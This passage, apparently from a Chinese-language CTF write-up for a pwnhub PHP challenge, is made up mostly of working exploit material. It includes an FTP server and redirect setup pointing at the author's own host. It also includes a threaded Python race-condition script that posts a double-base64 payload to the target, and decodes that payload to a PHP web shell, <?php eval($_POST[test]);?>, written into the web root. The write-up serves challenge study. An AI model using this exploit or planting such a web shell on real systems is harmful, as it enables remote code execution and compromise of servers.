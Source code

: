 ftp

```sh
sudo python -m pyftpdlib -p 21
```

然后，在根目录(/)下，写一个firesun文件![firesun](http://momomoxiaoxi.com/img/post/another/firesun.png)

测试一下，请求http://106.14.61.185:8080/test.html 它会转到ftp://106.14.61.185/firesun

接下来，我参考了[lorexxar](http://lorexxar.cn/2017/03/05/pwnhub-another-php/)里面的脚本，跑了一下。

```python
import requests
import threading
import time
from random import Random
url = "http://52.80.32.116/2d9bc625acb1ba5d0db6f8d0c8b9d206/a9b4d7cc810da015142f61f7e236d50b.php"
def down(cookie):
    data = {'image': 'http://106.14.61.185:8080/pwnhub.png'}
    r = requests.post(url, data = data, cookies=cookie)
def ri(cookie):
    s = requests.Session()
    data = {'pwnhub': 'ZmlsZV9wdXRfY29udGVudHMoIi92YXIvd3d3L2h0bWwvMmQ5YmM2MjVhY2IxYmE1ZDBkYjZmOGQwYzhiOWQyMDYvaW1hZ2UveGlhb3hpLnBocCIsIGJhc2U2NF9kZWNvZGUoIlBEOXdhSEFnWlhaaGJDZ2tYMUJQVTFSYmRHVnpkRjBwT3o4KyIpKTs='}
    r = s.post(url + "?pwnhub=firesun", data = data, cookies=cookie)
    if "Hacked by Firesun" in r.text:
        print r.text
def random_str(randomlength=8):
    str = ''
    chars = 'AaBbCcDdEeFfGgHhIiJjKkLlMmNnOoPpQqRrSsTtUuVvWwXxYyZz0123456789'
    length = len(chars) - 19
    random = Random()
    for i in range(randomlength):
        str+=chars[random.randint(0, length)]
    return str
for i in range(0,10000):
    session = random_str(26)
    cookie = {'PHPSESSID': session}
    threading.Thread(target = down,args = (cookie,)).start()
    threading.Thread(target = ri,args = (cookie,)).start()
```

注：base64字符集不包含<?> 所以，这里要二重base64编码

```Php
ZmlsZV9wdXRfY29udGVudHMoIi92YXIvd3d3L2h0bWwvMmQ5YmM2MjVhY2IxYmE1ZDBkYjZmOGQwYzhiOWQyMDYvaW1hZ2UveGlhb3hpLnBocCIsIGJhc2U2NF9kZWNvZGUoIlBEOXdhSEFnWlhaaGJDZ2tYMUJQVTFSYmRHVnpkRjBwT3o4KyIpKTs=

file_put_contents("/var/www/html/2d9bc625acb1ba5d0db6f8d0c8b9d206/image/xiaoxi.php", base64_decode("PD9waHAgZXZhbCgkX1BPU1RbdGVzdF0pOz8+"));

PD9waHAgZXZhbCgkX1BPU1RbdGVzdF0pOz8+

<?php eval($_POST[test]);?>
```
